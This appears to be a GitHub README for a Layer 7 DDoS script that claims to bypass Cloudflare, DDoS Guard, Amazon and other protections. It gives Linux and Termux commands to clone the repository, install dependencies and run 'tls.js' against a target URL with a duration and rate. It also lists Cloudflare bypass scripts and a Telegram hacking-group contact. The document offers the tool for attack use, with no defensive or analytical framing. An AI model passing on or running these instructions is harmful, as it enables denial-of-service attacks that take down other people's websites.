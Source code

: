 # dos
DDoS Script (DDoS Panel) with Multiple Bypass ( Cloudflare UAM,CAPTCHA,BFM,NOSEC / DDoS Guard / Google Shield / V Shield / Amazon / etc.. )

# DDOS LAYER7

LAYER7 BAYPASS CloudFlare js


Requirements
------------

    Git
    Node.Js


Usage LINUX
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ apt install nodejs -y
    $ unzip node_modules.zip
    $ npm install user-agents
    $ node tls.js https://target.com 60 1



   
Usage TERMUX
-----

    $ ln -s /sdcard
    $ cd sdcard
    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ pkg install nodejs -y
    $ unzip node_modules.zip
    $ npm install user-agents
    $ node tls.js https://target.com 60 1


Updating
--------

    # tls.js
    # cf.js BAYPASS CloudFlare
    # post.js BAYPASS CloudFlare
    


Contact
-------

Telegram Group : [Aceh Cyber Team]


[ACT]: https://t.me/AcehCyberTeam/
